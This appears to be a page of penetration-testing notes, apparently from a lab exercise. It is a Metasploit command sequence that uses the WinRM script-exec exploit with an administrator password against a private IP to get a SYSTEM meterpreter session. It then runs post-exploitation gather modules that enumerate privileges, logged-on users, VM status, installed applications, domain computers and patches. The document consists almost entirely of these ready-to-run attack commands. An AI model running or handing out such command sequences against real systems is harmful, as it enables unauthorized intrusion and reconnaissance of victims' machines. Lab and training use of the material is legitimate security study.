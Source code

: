 **win\_privs**

```bash
kali@kali> service postgresql start && msfconsole

msf6> db_nmap 10.3.22.17 -sV -p 5985
msf6> use exploit/windows/winrm/winrm_script_exec
msf6> set rhosts 10.3.22.17
msf6> set username administrator
msf6> set password tinkerbell
msf6> set force_vbs true
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
meterpreter> background

msf6> use post/windows/gather/win_privs
msf6> set session 1
msf6> run
```

**enum\_logged\_on\_users**

```bash
msf6> use post/windows/gather/enum_logged_on_users
msf6> set session 1
msf6> run
```

**checkvm**

```bash
msf6> use post/windows/gather/checkvm
msf6> set session 1
msf6> run
```

**enum\_applications**

```bash
msf6> use post/windows/gather/enum_applications
msf6> set session 1
msf6> run
```

**enum\_computers**

```bash
msf6> use post/windows/gather/enum_computers
msf6> set session 1
msf6> run
```

**enum\_patches**

```bash
msf6> use post/windows/gather/enum_patches
msf6> set session 1
msf6> run
```
